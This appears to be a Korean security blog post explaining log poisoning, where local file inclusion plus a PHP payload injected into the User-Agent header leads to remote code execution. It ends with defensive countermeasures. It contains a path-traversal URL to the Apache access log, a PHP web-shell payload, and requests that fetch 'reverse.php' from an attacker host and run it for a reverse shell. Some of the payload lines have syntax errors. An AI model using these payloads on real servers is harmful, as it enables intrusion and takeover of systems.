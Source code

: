 ```yaml
---
layout: single
title: (Web-Vuln) Log Poisoning
categories: Web-vuln
tag: [log injection, RCE, LFI, log poisoning]
toc: true
author_profile: false
sidebar:
    nav: "counts"
---
```

# 해당 취약점은 무엇인가?
>log Poisoning은 웹 어플리케이션에서 발생하는 취약점으로, LFI 취약점이 존재하며, Log 파일을 열람이 가능할 때 발생하며, log injection과 LFI 취약점이 선행되어야 한다. 이를 통해 RCE 까지로 이어질 수 있는 취약점이다.

***

# 공격 앤드포인트 탐색
해당 취약점은 서버에 존재하는 로그파일에 사용자의 정보 및 입력값이 쓰여질 때 발생할 수 있으므로, LFI 취약점이 존재해야한다.
```
http://victim.com/lifendpoint?view=
```
위와 같이 특정 파일을 Include하는 기능이 존재 한다고 가정해보자.
View 파라미터에 LFI 취약점이 존재하고, apache2 서비스가 동작중일 경우 일반적으로 /var/log/apache2/access.log 로그파일에 접근할 수 있다.
access.log 파일의 경우 웹 서버에서 접근 로그파일로, 사용자의 User-Agent 헤더 정보가 기록된다.
이 떄 User-Agent 값을 악의적인 사용자가 임의로 변경하게되면 그 정보 혹은 결과값이 access.log 파일에 기록된다(log injection).
## LFI 취약점을 통한 Log 파일 열람 
해당 시스템에 Apachee2 서비스가 동작 중이라면 access.log가 존재한다.
```
http://victim.com/lifendpoint?view=../../../../var/log/apache2/access.log
```
위와 같이 LFI 취약점이 존재할 경우 경로이동을 통해 access.log 파일에 접근할 수 있다.
![그림1-1](/assets/image/web-vuln/log_poisoning/image.png)
해당 access.log 파일에는 사용자의 User-Agent 값이 담기게 된다.
이 떄 악의 적인 사용자가 User-Agent 에 악성 코드를 삽입할 수 있다.

만약 해당 타겟시스템의 서버측 언어가 PHP 로 동작할 경우
```<?php system($_GET['cmd']);?> ```와 같이 php의 시스템 명령이 가능한 코드를 삽입하게 되면, 서버에서 User-Agent 헤더를 해석하는 과정에서 php 코드로 인식하여 이를 실행하게 된다.
즉 ***<span style="color:red"> RCE 취약점 까지 이어질 수 있는 치명적인 취약점이라고 볼 수 있다. </span>*** 

즉, 공격자 PC에서 리버스 커넥션 기능을 하는 악성 코드를 생서 후 웹서버를 구동시켜놓고, 해당 User-Agent 헤더에 공격자 PC에서 악성코드를 가져와 실행 시키는 명령어를 실행실 수 있게 된다.

```
GET /victim.com/lifendpoint?view=../../../../var/log/apache2/access.log&cmd=wget http://attacker/reverse.php

'''

User-Agent: <?php system($_GET['cmd']; ?)>
```

```
GET /victim.com/lifendpoint?view=../../../../var/log/apache2/access.log&cmd=php reverse.php

'''

User-Agent: <?php system($_GET['cmd']; ?)>
```
이를 통해 악성스크립트가 실행되며, 공격자 서버로의 Reverse Connection이 이루어지게된다.

# 대응방안
1. 로그 파일에 기록되는 이벤트 필터링을 통해, 정상적은 형식과 속성인지 검증 과정이 존재해야 한다.
2. 로그 파일을 암호화 하여, 외부에서의 데이터 변경 및 조작을 방지한다.
3. 로그 파일에 대한 접근 제어 및 권한부여를 통해 외부에서 데이터 변경 및 조작을 방지한다.
4. 실시간 모니터링을 통한 이상 징후를 탐지한다.
5. 정기적으로 로그파일에 대해 백업 및 무결성 검사를 실시한다.
6. 사용자 입력값에 대해 비정상적인 입력값이 들어오는지에 대한 입력값 검증이 필요하다.
